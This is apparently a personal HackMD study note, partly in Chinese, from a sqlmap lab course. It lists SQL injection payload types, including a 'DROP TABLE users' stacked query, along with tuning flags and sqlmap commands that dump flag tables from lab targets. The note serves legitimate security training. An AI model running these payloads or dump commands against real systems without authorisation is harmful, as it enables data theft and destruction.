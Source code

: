 # <span style=color:red>Database</span>
```
Web App/Services
 |
 |--DBS
    |
    |--Database
        |
        |---Table
             |
             |---Column
                  |
                  |---Data
```

---
# <span style=color:red>SQL Injection Types</span>
* Boolean-based blind
    * AND 1=1
* Error-base
    * AND GTID_SUBSET(@@version,0)
* UNION query-based
    * UNION ALL SELECT 1,@@version,3
* Stacked queries
    * ; DROP TABLE users
* Time-based blind
    * AND 1=IF(2>1,SLEEP(5),0)
---
* --crawl、--forms或-g
    * auto find parameter
* -r req.txt
    * burp to save as req.txt 
![image](https://hackmd.io/_uploads/r13KXNI4R.png)
* --parse-errors
    * to parse the DBMS errors
* --method PUT
# <span style=color:red>Tuning</span>
* --prefix="%'))" --suffix="-- -"
* --level=5 --risk=3
* --technique
    * --technique=u
        * UNION
---
## <span style=color:#44D62C>Case1</span>
![image](https://hackmd.io/_uploads/r1tH6QUVR.png)
---
## <span style=color:#44D62C>Case2</span>
![image](https://hackmd.io/_uploads/HJGBqE8NC.png)
* sqlmap 'http://94.237.57.173:35918/case2.php' --data 'id=1*' --dbs
* sqlmap 'http://94.237.57.173:35918/case2.php' --data 'id=1*' -D testdb --tables
* sqlmap 'http://94.237.57.173:35918/case2.php' --data 'id=1*' -D testdb -T flag2 --dump
---
## <span style=color:#44D62C>Case3</span>
![image](https://hackmd.io/_uploads/B1L35VUNR.png)

![image](https://hackmd.io/_uploads/Hk-WaVUV0.png)
* 修改cookie欄位發現可以切換資料
* sqlmap 'http://94.237.57.173:35918/case3.php' --cookie 'id=1*' --dbs
* sqlmap 'http://94.237.57.173:35918/case3.php' --cookie 'id=1*' -D testdb --tables
* sqlmap 'http://94.237.57.173:35918/case3.php' --cookie 'id=1*' -D testdb -T flag3 --dump
* 官方解答<span style=color:red>sqlmap -u 'http://STMIP:STMPO/case3.php' -H 'Cookie: id=*' --batch --dump</span>
    * 這樣反而dump不出來?
        * 05/31得解, 因為她id=1*才對, 官方答案錯誤
![image](https://hackmd.io/_uploads/H1m9fBLV0.png)
---
## <span style=color:#44D62C>Case4</span>
* 回家補圖, burp攔截的圖
* sqlmap -r request.txt --dump
---
## <span style=color:#44D62C>Case5</span>
* sqlmap -u 'http://94.237.55.246:31216/case5.php?id=1' --risk 3 --level 5 --dbs --batch
* sqlmap -u 'http://94.237.55.246:31216/case5.php?id=1' --risk 3 --level 5 --T flag5 --batch
---
## <span style=color:#44D62C>Case6</span>
* sqlmap -u 'http://94.237.55.246:31216/case6.php?col=*' -T flag6 --dump --batch
---
## <span style=color:#44D62C>Case7</span>
* sqlmap -u 'http://94.237.55.246:31216/case6.php?id=1*' -T flag7 --dump --batch --technique=U
---
# <span style=color:red>Challege</span>
* --ignore-code 401
